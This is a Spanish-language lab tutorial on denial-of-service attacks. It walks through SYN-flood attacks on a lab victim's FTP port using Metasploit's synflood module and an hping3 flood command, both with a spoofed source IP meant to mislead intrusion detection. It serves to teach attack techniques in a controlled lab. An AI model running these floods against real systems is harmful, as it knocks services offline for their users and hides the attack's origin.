



# Ataques DoS.
      

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasplotaible3-Win2k8***


Los ataques ***DoS*** son los más sencillos de realizar. El atacante intenta saturar a la víctima, y si lo consigue, ésta no podrá realizar su cometido habitual. 

También sabemos que los ataques distribuidos DoS, o ***DDoS***, son prácticamente imposibles de evitar. La única forma de defendernos de ellos es que la electrónica de red o el perimetral los detecte o mitigue, ya que los sistemas operativos actuales no pueden defenderse por ellos mismos.

Estos ataques se caracterizan por consumir el ancho de banda disponible en la red de la víctima o la CPU de los dispositivos. Pertenecen al grupo de ***Ataques Volumétricos***. Los ataques más habituales son ***Inundación UDP***, ***Inundación ICMP***, ***Inundación SYN***, ***Fragmentación***

## Ejercicio 1: Lanzar un ataque de DoS con Metasploit.

En la máquina ***Metasploitable3-Win2k8***, iniciamos sesión y abrimos el ***Administrador de Tareas***. Podemos comprobar como la carga de CPU/RAM de la máquina es normal.
  


El uso de la red por parte de la máquina está al mínimo.



Esta máquina tiene varios servicios, entre ellos un servidor ***FTP***, un servidor ***web*** y ***mySQL***.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando.
```
nmap 192.168.20.14
```

Vamos a atacar al servidor FTP de la víctima por medio de un ataque de inundación SYN, para denegar el servicio FTP.
```
sudo msfconsole
```

Configuramos el ataque de la siguiente forma.
```
use auxiliary/dos/tcp/synflood
```

```
set RHOST 192.168.20.14
```

```
set RPORT 21
```

Para intentar engañar a los IDS, usamos el parámetro ***SHOST*** donde ponemos la IP (falsa) que está realizando el ataque.
```
set SHOST 192.168.20.100
```

Comprobamos que la configuración es correcta.
```
show options
```



Lanzamos el ataque.
```
run
```

Si observamos, en la víctima, apenas se ha incrementado la carga de CPU de la víctima un 5%-9%. ***Metasploit*** no es especialmente efectivo y necesitaría realizarse un ***DDoS*** para saturar a la víctima.

En la máquina ***Kali***, detenemos el ataque pulsando ***CTRL+C***.


## Ejercicio 2: Lanzar un ataque de DoS con Hping3.

Por el contrario, ***Hping3*** s mucho más eficiente. 

En la máquina ***Kali*** ejecutamos en la terminal el ataque equivalente, pero usando ***Hping3***.
```
sudo hping3 -S 192.168.20.14 -a 192.168.20.100 -p 21 --flood
```

Como podrás observar, el ataque consigue sigir la ***CPU*** de la víctima en torno al 40%.

Podrías intentar abrir otras terminales y realizar el mismo ataque, obteniendo un incremento de uso de CPU de un 5% por cada terminal.

Al igual que el experimento anterior, para garantizar una denegación de servicio efectiva, independientemente del escalado vertical que pudiera llegar a tener la víctima, sería necesario recurrir a un ***DDoS***.

Finaliza los ataques cerrando las terminales.

***FIN DEL LABORATORIO***